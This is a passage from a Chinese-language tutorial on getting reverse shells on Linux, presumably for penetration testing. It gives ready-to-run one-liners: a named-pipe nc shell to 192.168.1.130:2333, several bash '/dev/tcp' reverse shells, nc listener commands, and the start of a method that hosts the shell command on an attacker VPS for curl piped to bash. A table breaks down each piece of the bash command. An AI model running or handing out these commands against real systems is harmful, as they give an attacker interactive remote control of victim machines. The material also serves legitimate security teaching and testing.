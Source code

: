 类似的命令：

```shell
mknod backpipe p; nc 192.168.1.130 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## **0x03 利用Bash反弹shell**

个人感觉反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：

```shell
bash -i >& /dev/tcp/攻击机ip/2333 0>&1
bash -c "bash -i >& /dev/tcp/攻击机ip/2333 0>&1"
bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
```

以下是针对Bash反弹一句话进行了拆分说明：

| 命令             | 命令详解                                                     |
| ---------------- | ------------------------------------------------------------ |
| bash -i          | 产生一个bash交互环境。                                       |
| >&               | 将混合输出（标准输出+标准错误输出）结合，然后一起重定向给后者。 |
| /dev/tcp/ip/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机的2333端口建立一个tcp连接。 |
| 0>&1             | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。 |

Bash反弹一句完整的解读过程就是：

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
```

### **Curl配合Bash反弹shell**

这里操作也很简单，借助了Linux中的管道。

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

```shell
bash -i >& /dev/tcp/攻击方ip/2333 0>&1
```

并开启2333端口的监听。

```shell
nc -lvp 2333
```
